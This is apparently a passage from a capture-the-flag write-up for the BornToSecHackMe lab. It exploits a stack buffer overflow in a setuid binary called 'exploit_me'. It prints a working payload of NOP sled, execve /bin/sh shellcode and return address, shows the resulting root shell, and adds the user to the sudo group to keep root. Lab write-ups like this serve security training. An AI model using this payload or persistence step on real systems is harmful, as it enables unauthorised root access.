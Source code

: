 
After find EIP address and Buffer address, we create our playload :

$(python -c 'print "\x90" * 95 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x40\xf6\xff\xbf"')



```
zaz@BornToSecHackMe:~$ $PWD/exploit_me $(python -c 'print "\x90" * 95 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\xa4\xf8\xff\xbf"')
������������������������������������������������������������������������������������������������^�1��F�F
                                                                                                        �
                                                                                                         ����V
                                                                                                              1ۉ�@�����/bin/sh����
# whoami
root
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```
We are root shell but our uid isn't `0`, so we will add zaz in sudo users

`usermod -aG sudo zaz` and we re login with zaz user

```
ssh zaz@target
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
zaz@target's password: 
zaz@BornToSecHackMe:~$ whoami
zaz
zaz@BornToSecHackMe:~$ sudo su
[sudo] password for zaz: 
root@BornToSecHackMe:/home/zaz# id
uid=0(root) gid=0(root) groups=0(root)
```

We are root ! 
                                                              
	


